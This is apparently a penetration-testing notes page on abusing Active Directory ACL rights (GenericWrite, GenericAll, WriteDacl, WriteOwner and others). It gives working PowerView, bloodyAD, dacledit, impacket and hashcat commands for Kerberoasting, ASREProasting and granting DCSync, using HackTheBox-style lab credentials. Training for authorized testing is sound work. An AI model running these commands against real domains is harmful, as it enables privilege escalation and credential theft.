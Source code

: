 # ACL

### Addself

    Addself abused with Add-DomainGroupMember

Shows security groups that a user can add themselves to.

### ForceChangePassword

    Abused with Set-DomainUserPassword
    https://github.com/Andre92Marcos/tools/blob/master/powersploit/PowerView.md#functions

Gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords).

### GenericWrite

    Abused with Set-DomainObject

Gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module.

Example:

```powershell
# Create a cred object of the user the has the GenericWrite acl
$SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)

#Next we'll use Set-DomainObject to set a fake SPN on the target account. We'll create an SPN named acmetesting/LEGIT
Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose
```
```shell
#Finally we can use impacket to get the tgt of th target account
impacket-GetUserSPNs -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons
#And then crack
hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt
```


### GenericAll

    Abused with Set-DomainUserPassword or Add-DomainGroupMember

This grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access.

We can also add the dont_req_preauth setting so that the account is ASREProastable:

```
bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k add uac <username_of_target_account> -f DONT_REQ_PREAUTH
```

### WriteDacl

This abuse can be carried out when controlling an object that has WriteDacl over another object.

Instead of giving full control, the same process can be applied to allow an object to DCSync by adding two ACEs with specific Extended Rights (DS-Replication-Get-Changes and DS-Replication-Get-Changes-All). Giving full control leads to the same thing since GenericAll includes all ExtendedRights, hence the two extended rights needed for DCSync to work.

Using dacledit.py

```
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

```
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

Using bloodyAd

```
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add genericAll "$TargetObject" "$ControlledPrincipal"
```

```
# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync "$ControlledPrincipal"
```

Using PowerView

```powershell
$SecPassword = ConvertTo-SecureString '<password_of_controlled_user_with_WriteDacl>' -AsPlainText -Force
#$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<controlled_user>', $SecPassword)
#$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity <user_that_is_gonna_receive_the_dcsync_acls> -Rights DCSync
#Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity svc-alfresco -Rights DCSync
```

### WriteOwner

    Abuse with bloodyAD

    bloodyAD --host <host_ip> -d '<domain_name>' -u '<username>' -p '<password>' set owner <group_name> <name_of_new_owner>
    dacledit.py -action 'write' -rights 'FullControl' -principal '<username_of_new_owner>' -target '<username_being_owned>' '<domain_name>'/'<username_new_owner>':'<password_new_owner>' # to give full control

https://github.com/Andre92Marcos/tools/tree/master/bloodyAD
